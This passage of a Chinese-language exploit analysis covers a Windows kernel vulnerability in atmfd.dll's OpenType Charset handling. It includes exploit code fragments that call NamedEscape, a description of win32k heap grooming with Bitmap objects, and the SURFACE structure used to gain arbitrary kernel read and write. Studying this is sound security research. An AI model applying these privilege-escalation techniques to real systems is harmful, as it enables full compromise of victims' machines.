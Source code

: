 ```
42  __MEMSET__(outbuf, 0, sizeof(outbuf));
43   
44  //call an internal atmfd.dll function which receives a kernel font object as input and validates it
45  //also returning data that identifies the font
46  if (lpTable->locals->is64) {
47  ret = NamedEscape(NULL, wcAtmfd, 0x250A, 0x10, inbuf, 0x10, outbuf);
48  }else {
49  ret = NamedEscape(NULL, wcAtmfd, 0x250A, 0x0C, inbuf, 0x0C, outbuf);
50  }
51   
52  if (ret != 0xFFFFFF21) {
53  char *p;
54   
55  if (lpTable->locals->is64)
56  p = outbuf + 8;
57  else
58  p = outbuf + 4;
59   
60  if (__MEMCMP__(p, lpTable->lpLoaderConfig->strFontEgg, 8) == 0) {
61  found = 1;
62  break;
63  }
64  }
65  }
66  }

```

2 触发漏洞，实现写入Bitmap对象

攻击代码首先会分配多个0xb000大小的对象，然后找到9个相邻的Bitmap对象并释放中间的3个，这样就在内核win32k堆内存中留下了0xb000*3= 0x21000大小的空洞，接着攻击代码调用NameDEscape-atmfd的0x2514号命令来读取超长的Charset，触发漏洞。

在这个NamedEscape调用到atmfd过程中，会分配内核对象来复制一份输入的缓存，这里攻击代码将输入的缓存大小设置为0x20005，由于页对齐的原因，这里正好可以占住上面我们说到的0x21000大小的空洞内存。

这样在最终符号溢出时，就会写入到这块Buffer上面未被释放的Bitmap对象中，这就通过精确地堆操作完成了将这个符号溢出导致的缓存上溢转换到对已控制的Bitmap对象的写入。 这个转化的流程如下图所示：

![enter image description here](http://drops.javaweb.org/uploads/images/ca5088d65c90d5dfac2b74c66735b9b955cec70e.jpg)

3 将Bitmap写入转换为内核任意地址读写

在第2步我们讲到这里可以通过操作字体接口，将OTF文件的Charset处理的符号溢出漏洞转换为覆盖Bitmap对象内存的操作，这里我们来看看Bitmap对象在win32k中是如何组织的：它实际是一个 SURFACE对象，结构如下：

```
01  typedef struct {
02  unsigned int handle0;
03  unsigned int unk0[4];
04  unsigned int handle1;
05  unsigned int unk1[2];
06  unsigned int width;
07  unsigned int height;
08  unsigned int size;
09  unsigned int address0;
10  unsigned int address1;
11  unsigned int scansize;
12  unsigned int unk2;
13  unsigned int bmpformat;
14  unsigned int surftype;
15  unsigned int unk3;
16  unsigned int surflags;
17  unsigned int unk4[12];
18  } SURFACE;
```